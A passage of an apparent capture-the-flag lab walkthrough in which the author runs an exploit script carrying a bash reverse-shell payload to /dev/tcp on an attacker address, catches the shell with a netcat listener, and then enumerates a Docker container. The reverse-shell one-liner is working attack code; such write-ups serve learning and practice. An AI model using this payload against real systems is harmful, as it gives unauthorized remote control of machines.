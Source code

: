 - We can try to load a reverse shell script and get a reverse shell.
```console
❯ bash exploit.sh target.txt /bin/sh "bash -c 'bash -i >& /dev/tcp/10.8.0.150/8080 0>&1'"
10.10.251.106
```

- Caught a reverse shell
```console
$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.8.0.150] from (UNKNOWN) [10.10.251.106] 60736
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
daemon@4a70924bafa0:/bin$
```

## Docker 
- While looking at root folder found that there is a `.dockerenv` file present, which indicates we are in a docker container.
```console
daemon@4a70924bafa0:/$ ls -la
total 76
drwxr-xr-x   1 root root 4096 Feb 23  2022 .
drwxr-xr-x   1 root root 4096 Feb 23  2022 ..
-rwxr-xr-x   1 root root    0 Feb 23  2022 .dockerenv «------Docker folder
drwxr-xr-x   1 root root 4096 Oct  8  2021 bin
drwxr-xr-x   2 root root 4096 Jun 13  2021 boot
drwxr-xr-x   5 root root  340 Oct 21 13:49 dev
drwxr-xr-x   1 root root 4096 Feb 23  2022 etc
drwxr-xr-x   2 root root 4096 Jun 13  2021 home
drwxr-xr-x   1 root root 4096 Oct  8  2021 lib
drwxr-xr-x   2 root root 4096 Sep 27  2021 lib64
drwxr-xr-x   2 root root 4096 Sep 27  2021 media
drwxr-xr-x   2 root root 4096 Sep 27  2021 mnt
drwxr-xr-x   2 root root 4096 Sep 27  2021 opt
dr-xr-xr-x 170 root root    0 Oct 21 13:49 proc
drwx------   1 root root 4096 Oct  8  2021 root
drwxr-xr-x   3 root root 4096 Sep 27  2021 run
drwxr-xr-x   1 root root 4096 Oct  8  2021 sbin
drwxr-xr-x   2 root root 4096 Sep 27  2021 srv
dr-xr-xr-x  13 root root    0 Oct 21 13:49 sys
drwxrwxrwt   1 root root 4096 Feb 23  2022 tmp
drwxr-xr-x   1 root root 4096 Sep 27  2021 usr
drwxr-xr-x   1 root root 4096 Sep 27  2021 var
```
- On running `whoami` we the output is `daemon` which confirms that we are in a docker.
```console
daemon@4a70924bafa0:/$ whoami
daemon
```
- The IP address of the machine is also in the format `172.17.x.x`.
```console
daemon@4a70924bafa0:/$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255 «---------IP 
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 762  bytes 57540 (56.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 538  bytes 320428 (312.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
```